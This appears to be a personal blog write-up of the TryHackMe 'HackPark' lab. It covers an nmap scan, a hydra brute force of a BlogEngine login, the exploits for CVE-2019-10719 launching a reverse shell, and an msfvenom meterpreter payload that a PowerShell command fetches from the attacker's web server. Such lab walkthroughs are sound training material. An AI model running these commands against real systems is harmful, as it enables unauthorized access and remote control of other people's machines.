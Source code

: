 #+TITLE: Back Again: THM Hackpark
#+DATE: <2023-12-14 23:58>
#+DESCRIPTION: 
#+FILETAGS: 

After taking a short break from CTFs, trying to keep my *tryhackme*
active streak ... active and losing quite a lot of time to finding and
fixing stuff (unfortunately not only in software), it is time for yet
another CTF. If I am not mistaken this is listed as an easy one, so
let's dive right in.

After using the good ol trick of modifying ~/etc/hosts~ and ~.bashrc~ for
easier handling of the remote machine's address:

* Recon

Our initial port scan only shows 2 open ports:
- [ ] 80: a web server
- [ ] 3389: Microsoft SChannel TLS (which the most prominent google
  results suggest may be an RDP entry point)
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oN nmap.initial $IP
#+end_src

After checking on the results that the full nmap scan returned (while
the bruteforce performed ahead was running), another open port was
revealed:
- [ ] 5985: wsman

** Visiting the WebServer
The website is powered by ~BlogEngine~, with numerous exploits readily
available for certain versions of it in exploitdb.

~robots.txt~ has some nice directories:
#+begin_example
User-agent: *
Disallow: /Account/*.*
Disallow: /search
Disallow: /search.aspx
Disallow: /error404.aspx
Disallow: /archive
Disallow: /archive.aspx
#+end_example

We have a contact form, so a XSS vulnerability could (maybe) be used
#+caption: Contact form
[[file:images/Recon/20231215_000936_screenshot.png]]

We also have a log in form:
#+caption: Log in form
[[file:images/Recon/20231215_001129_screenshot.png]]

The room's author (after dealing with the first "flag"), suggests
bruteforcing, so even though it is not my first option, this is what I
am looking at.

* Bruteforcing the website log in
After redirecting my web traffic to burp, so that I can better see how
my post requests are structured, it becomes apparrent that there is a
set of parameters (other than just username and password) I need to
set:

#+begin_example
__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
#+end_example

Adding to these the knowledge that the login post request had this
path ~/Account/login.aspx~ and failed login attempts had ~Login failed~:,
I structured the following hydra command:
 #+NAME: Hydra bruteforce http-post-form
 #+begin_src bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt hackpark.thm http-post-form "/Account/login.aspx:__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" 
 #+end_src

After waiting for some time, it gave us the password.
#+begin_comment
1qaz2wsx
#+end_comment

* Exploiting BlogEngine
Seeing that BlogEngine had some exploits available, I immediately
searched for the currently running version, (available in the ~about~
pane). 

#+caption: Blog Engine Version
[[file:images/Exploiting_BlogEngine/20231215_003106_screenshot.png]]

Heading back to ~searchsploit~, we see that there are two readily
available python scripts for us to use (much better than the manual
alternative :P ):

#+begin_example
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Direct | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' D | aspx/webapps/47011.py
#+end_example

Now, after checking with (-x), we see that both of them are by the
same author and essentially have a similar behavior. I decided to go
with the first one.

#+begin_example
Exploit for CVE-2019-10719

CVE Identified by: Aaron Bishop
Exploit written by: Aaron Bishop

Upload and trigger a reverse shell

python exploit.py -t 192.168.10.9 -l 192.168.10.10:1337

Open a listener to capture the reverse shell - Metasploit or netcat

nc -nlvp 1337
#+end_example

This, taken from the exploit file (obviously), served as the basis for
the following command
 #+NAME: Exploiting BlogEngine - final part
#+begin_src bash
searchsploit -m 47010 # this might be just the most beautiful option in searchsploit, which I had *totally* missed for quite a long time
python 47010.py -t hackpark.thm -l 10.10.93.209:6969 -u admin -p 1qaz2wsx
#+end_src

This, strangely did not work, so before tinkering around any longer, I
ran the same command with 47011 (which required me to comment out just
one line in the python script as well). At this point, 47011 gave us a
nice reverse shell.


#+caption: Initial Foothold
[[file:images/Exploiting_BlogEngine/20231215_004446_screenshot.png]]

At this point, even the privilege escalation path is right in front of
us, so after uploading winpeas or getting a meterpreter shell, there
is no need for manual priv esc. 

* PrivEsc
This section could be called "getting the flags", because I do not
believe that I would go 

** Meterpreter 
First things first, generating and uploading the payload to the target
host:
#+NAME: Generating the payload and starting the web server
#+begin_example
root@ip-10-10-93-209:~# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.93.209 LPORT=6970
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
root@ip-10-10-93-209:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
#+end_example

Now, getting the file to the target system was *way* harder than it
needed to be. Initially, I thought that it would be just a bit more
difficult than it is on Linux. No matter what I tried, however, I
could not see that long awaited line in my python server, showing that
the file had been requested...

Sometime, I managed to get it to do the request, but a 'Bad Request
Syntax' prevented me from getting too excited - if you find yourself
in that position make sure that you are smarter than me: pressing
https instead of http by habit.

#+begin_example
powershell -c "Invoke-WebRequest -Uri 'http://10.10.93.209:8000/shell.exe' -OutFile 'c:\Windows\Temp\shell.exe'"
#+end_example

#+caption: Meterpreter
[[file:images/PrivEsc/20231215_012431_screenshot.png]]


(After completing this section I realized I did not include how the
handler was set up, but it is trivial, just ~use~ the
exploit/multi/handle - shown above - and complete the options)

After completing the tedious flags, just a simple ~cat~ gives us the
flag on ~jeff~'s and ~Administrator~'s desktops respectively.

Winpeas is not necessary since we have a full-fledged meterpreter
session. Maybe next time.


* Conclusion
I will focus on getting some more experience with windows, at least on
a theoretical level, and populating my notes better, because I think
it is quite sad to see how much more difficult exploiting windows feels.

